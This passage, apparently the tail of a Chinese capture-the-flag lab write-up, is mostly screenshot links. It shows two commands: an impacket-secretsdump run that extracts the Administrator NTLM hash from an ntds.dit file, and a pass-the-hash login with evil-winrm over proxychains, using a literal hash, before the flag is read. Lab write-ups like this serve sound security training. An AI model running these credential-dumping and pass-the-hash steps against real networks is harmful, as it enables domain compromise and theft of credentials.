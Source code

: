 ![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114154945-6aojrem.png?imageSlim)​

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114155803-tqdv1y1.png?imageSlim)​

解密出administrator的hash

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114160447-94bwrah.png?imageSlim)​

打pth，winrm上去

```bash
proxychains4 evil-winrm -i 172.22.14.11 -u Administrator -H "70c39b547b7d8adec35ad7c09fb1d277"
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114160545-agwbh3w.png?imageSlim)​

到对应位置读取flag

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114160645-8dcmr2l.png?imageSlim)​

